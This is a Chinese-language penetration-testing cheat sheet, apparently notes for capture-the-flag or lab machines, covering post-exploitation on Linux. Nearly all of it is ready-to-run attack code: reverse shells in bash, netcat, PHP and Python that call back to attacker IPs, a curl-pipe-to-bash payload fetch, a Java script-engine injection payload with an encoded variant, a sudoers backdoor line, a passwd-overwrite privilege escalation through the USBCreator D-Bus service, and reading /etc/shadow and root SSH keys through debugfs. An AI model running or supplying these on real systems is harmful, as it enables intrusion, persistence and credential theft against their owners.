 **获取到一个 shell 了，可以添加 authorized_keys 到.ssh 文件夹中，以方便我们登录或者创建 ssh 隧道**
```bash
cd ~ ; mkdir .ssh ; cd .ssh
ssh-keygen -f xekOnerR (kali)
echo '' > authorized_keys  /  xx.pub
```

**SHELL**
(反弹 shell 失败可以尝试更换端口：443, 80 .....)
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.11 1337 >/tmp/f
echo -e '#!/bin/bash\n\nbusybox nc -e /bin/bash 192.168.39.93 3000' > /tmp/shell.sh ; chmod +x /tmp/shell.sh
echo -e 'sh -i >& /dev/tcp/192.168.49.94/3000 0>&1' > /tmp/shell.sh ; chmod +x /tmp/shell.sh
curl http://10.10.14.11/rev.sh | bash
nc -nv 192.168.45.170 3000 -e /bin/bash
"php -r '\$sock=fsockopen(\"192.168.45.170\", 2233);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
busybox nc 192.168.45.170 443 -e /bin/sh
```

JAVA
```java
${script:javascript:java.lang.Runtime.getRuntime().exec('/bin/bash -c bash$IFS$9-i>&/dev/tcp/192.168.45.199/2233<&1')}
%24%7bscript%3ajavascript%3ajava.lang.Runtime.getRuntime().exec('%2fbin%2fbash%20-c%20bash%24IFS%249-i%3e%26%2fdev%2ftcp%2f192.168.45.199%2f2233%3c%261')%7d
```

easy php
```php
<?php
$sock=fsockopen("10.10.14.24", 443); 
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

提权 cmd
- xxx.sh
```bash
echo 'username ALL=(root) NOPASSWD: ALL' >> /etc/sudoers
```

py
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",2233));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")

__import__('os').system('id')
__import__('os').system('bash')
```


## TTY SPAWN SHELL :
```bash
which python (查看靶机上是否有python)   /  which script
python3 -c 'import pty;pty.spawn("/bin/bash");'   / script -O /dev/null -q /bin/bash  (获得完整的交互性shell会话) 
CTRL + Z
stty raw -echo ; fg
reset , 如果系统提示输入终端类型，输入 screen
export TERM=xterm-color
```

#### 可执行文件文件夹路径
```
/dev/shm/
```

## 手工枚举

```bash
whoami 
id   
(如果拥有 4(adm) 可以去/var/log查找包含passw的字符串的日志信息)
grep -r passw . 2>/dev/null

who 
uname -a
	cat /proc/version
	cat /etc/issue
	hostname(ctl)
ip a 
	ifconfig
	ip addr
	ip route
	arp -a
	cat /proc/net/fib_trie
ls -liah 
history 
which python

sudo -l (查看当前用户有那些文件是可以以root身份去执行的文件)
getcap -r / 2>/dev/null  (得到权限能力目录 错误信息重定向到null中 防止信息洪水)
find / -perm -u=s -type f 2>/dev/null (查找所有suid权限的文件 过滤错误信息 类型为文件)
cat /etc/crontab 
	 grep "CRON" /var/log/syslog
cat /etc/passwd 
cat /etc/passwd | grep home | awk -F ':' '{print $1}' 
ls -liah /etc/passwd /etc/shadow
find / -writable -type f -not -path "/sys/*" -not -path "/proc/*" 2>/dev/null
	
find / -type f -name "*" |xargs grep -ri "fireman" 2>/dev/null
echo $PATH 
ps -ef (查看所有的进程)
	ps axjf (查看进程树)
	ps aux (查看全部用户的进程)
    top -n 1 (查看进程 只查看一次)
netstat -a 
	netstat -tnl
	netstat -ano
	lsof -i :PORT
cat /etc/fstab (查看有无磁盘被挂载)
mysql -u root 
ls /etc/cron*
cd /home/[USER]/Documents
	grep -rn "ssh" 可能存在密码泄露
/backup  查看backups文件夹内容
cat /etc/exports (查看NFS配置)
cat /etc/mysql (如果后期拿到mysql的账号会有用)
cat /etc/exports ((111,2049开放)NFS配置不当提权) 参考2049 - NFS
ls -laR
find / -name backup 2>/dev/null
查找home目录中的.cache 如果有motd.legal-displayed 文件夹 ， 见下motd.legal-displayed提权
```

- (偏 ctf 的端口敲门配置文件)

```bash
/etc/knockd.conf
/var/log/knockd.log

详细利用：
for i in 571 290 911; do nmap -Pn --host-timeout 100 --max-retries 0 -p $i <ATTACK IP> >/dev/null； done;
```

```shell
su <高权限USER>
```

**遇到有 sudo -l 没见过的，--help 和 man 查看命令手册帮助可能不太一样**
```bash
man genie
```


## 自动枚举

**Linpeas**
```shell
chmod +x linpeas.sh
./linpeas.sh
```

[+] **PSPY 64**
pspy 是一个命令行工具，它可以在没有 Root 权限的情况下，监控 Linux 进程。
```shell
wget http://<KALI IP>:<PORT>/pspy64
chmod +x pspy64
./pspy64
```

### gcc 编译的一些问题
**没有 gcc**
```bash
which cc
```

**exp 中：gcc 替换成 cc**
```bash
sed 's/gcc/cc/g' <FILE>
```
**g++** 也可以尝试，如果实在什么都没有，那就直接在 kali 上编译好然后传过去：

#### 如果遇到 ：version `GLIBC_2.34' not found
```bash
gcc --static EXP.c
```
会生成一个 a.out , 然后改名为 a.elf , 传到靶机上去
```bash
chmod +x a.elf
./a.elf
```


### motd.legal-displayed 提权
一般在 home 的.cache 文件夹，如果存在 motd.legal-displayed，则可能造成提权
**Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation (2)**
```
Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation (2)         linux/local/14339.sh
```
wget 传输文件到靶机，bash 运行脚本，运行脚本后输入密码 toor 登录到 root 用户提权


### 存在 51-ubuntu-admin.conf
可以尝试的提权方式
```bash
cat /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf 
[Configuration] 
AdminIdentities=unix-group:sudo;unix-group:admin
```
利用：
```bash
ls -la /dev/shm/xek
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/root.txt /dev/shm/xek true
```
提权操作：
```bash
cd /tmp;cp /etc/passwd passwd
openssl passwd -1 xekoner
echo 'xekoner:$1$9qOwxI.G$aW0MpGd5x9MAAKPQ0GOKk.:0:0:pwned:/root:/bin/bash' >> passwd
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /tmp/passwd /etc/passwd true
```

### 监听流量数据
```bash
tcpdump -i lo -nnXs 0 'port 389'
```


# 组特权提权

##### 拥有 116(lxd) 特权，LXC Exploitation 特权提升
创建一个容器，并将根文件系统挂载到容器中，然后可以完全访问它
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation


#####  6(disk) 权限
此权限几乎等同于 root 访问权限，因为您可以访问计算机内部的所有数据。
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#disk-group
```bash
df -h   (查找可以的磁盘)
debugfs /dev/sda1   （进入磁盘）
debugfs:  cat /etc/shadow
debugfs:  cat /root/.ssh/id_rsa
```


### `git` 文件夹收集信息
```bash
git show 
git status   (显示上次提交中存在但不再存在的所有文件)
git log --oneline   (历史记录显示一些提交)
git log --name-only --oneline
	git diff 1e84a03 b73481b  (显示两个hash之间的差异 可能存在密码之类的敏感信息)
git checkout d387abf -- resources/integration/authcredentials.key  (恢复旧数据)
git reset --hard 7ff507d  (复原)
```